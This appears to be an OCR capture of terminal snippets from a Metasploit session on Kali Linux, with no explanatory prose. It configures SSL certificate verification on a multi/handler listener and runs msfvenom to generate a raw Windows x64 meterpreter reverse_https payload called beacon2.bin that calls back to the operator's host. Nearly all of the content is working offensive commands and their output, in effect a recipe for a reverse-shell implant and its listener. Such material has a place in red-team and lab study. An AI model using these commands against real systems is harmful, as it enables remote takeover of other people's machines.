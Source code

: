 ## 
```sh
msf6 exploit(multi/handler) > grep -i ssl advanced
   HandlerSSLCert               www.example.com.pem                              no        Path to a SSL certificate in unified PEM format, ignored for HTTP transports
   SSLVersion                   Auto                                             yes       Specify the version of SSL/TLS to be used (Auto, TLS and SSL23 are auto-negotiate) (Ac
                                                                                           cepted: Auto, TLS, SSL23, SSL3, TLS1, TLS1.1, TLS1.2)
   StagerVerifySSLCert          false                                            no        Whether to verify the SSL certificate in Meterpreter
msf6 exploit(multi/handler) >
```

## 
```sh
msf6 exploit(multi/handler) > set StagerVerifySSLCert true 
StagerVerifySSLCert => true
```

## 
```sh
msf6 exploit(multi/handler) > grep -i ssl advanced
   HandlerSSLCert               www.example.com.pem                 no        Path to a SSL certificate in unified PEM format, ignored for
   SSLVersion                   Auto                                yes       Specify the version of SSL/TLS to be used (Auto, TLS and SSL2
                                                                              3 are auto-negotiate) (Accepted: Auto, TLS, SSL23, SSL3, TLS1
   StagerVerifySSLCert          true                                no        Whether to verify the SSL certificate in Meterpreter
msf6 exploit(multi/handler) >
```

## 
```sh
$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=$myip lport=4444 HandlerSSLCert=www.example.com.pem StagerVerifySSLCert=true -f raw -o beacon2.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 664 bytes
Saved as: beacon2.bin

$ l beacon*    
-rw-r--r-- 1 kali kali 664 Nov 29 12:27 beacon2.bin
-rw-r--r-- 1 kali kali 460 Nov 29 11:51 beacon.bin
```

## 
```sh
msf6 exploit(multi/handler) > options                                                                                                                                              
                                                                                                                                                                                   
Module options (exploit/multi/handler):                                                                                                                                            
                                                                                                                                                                                   
   Name  Current Setting  Required  Description                                                                                                                                    
   ----  ---------------  --------  -----------                                                                                                                                    
                                                                                                                                                                                   

Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
```